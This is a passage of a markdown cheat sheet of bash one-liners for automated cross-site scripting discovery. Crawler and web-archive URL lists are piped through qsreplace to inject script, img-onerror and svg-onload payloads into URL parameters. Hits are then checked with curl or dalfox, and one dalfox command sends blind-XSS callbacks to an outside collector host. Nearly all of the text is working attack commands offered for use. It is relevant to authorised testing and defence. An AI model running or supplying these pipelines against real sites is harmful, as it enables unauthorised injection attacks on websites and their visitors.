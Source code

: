```bash
gospider -S target.com -t 3 -c 100 | tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '"><script>alert(1)</script>' | while read host; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host Vulnerable"; done
```

### Wayback Techniques
```bash
# Technique 1: Wayback + kxss
echo target.com | waybackurls | kxss

# Technique 2: Wayback + gf + httpx
echo "http://target.com/" | waybackurls | httpx -silent -timeout 2 -threads 100 | gf xss | anew

# Technique 3: Direct Testing
waybackurls target.com | grep '=' | qsreplace '"><script>alert(1)</script>' | while read host; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host Vulnerable"; done

# Technique 4: Frequency Analysis
echo http://target.com | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq
```

### GAU (GetAllUrls) Techniques
```bash
# Technique 1: GAU + gf + dalfox
echo target.com | gau | gf xss | sed 's/=.*/=/' | sed 's/URL: //' | tee gau_targets.txt | dalfox file gau_targets.txt

# Technique 2: Hidden JavaScript Parameters
gau target.com | egrep -v '(.css|.svg)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,var,'"$url"?,g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"; done
```

### Hakrawler Techniques
```bash
# Advanced Hakrawler + Wayback
hakrawler -url "target.com" -plain -usewayback -wayback | grep "target.com" | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | qsreplace -a | kxss | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | dalfox pipe -b https://your.xss.ht
```

### HTTPX Pipeline
```bash
# Advanced Pipeline
httpx -l targets.txt -silent -no-color -threads 300 -location 301,302 | awk '{print $2}' | grep -Eo "(http|https)://[^/"].*" | tr -d '[]' | anew | xargs -I@ sh -c 'gospider -d 0 -s @' | tr ' ' '\n' | grep -Eo '(http|https)://[^/"].*' | grep "=" | qsreplace "<svg onload=alert(1)>"
```

## 🔥 GOD TIER Integration
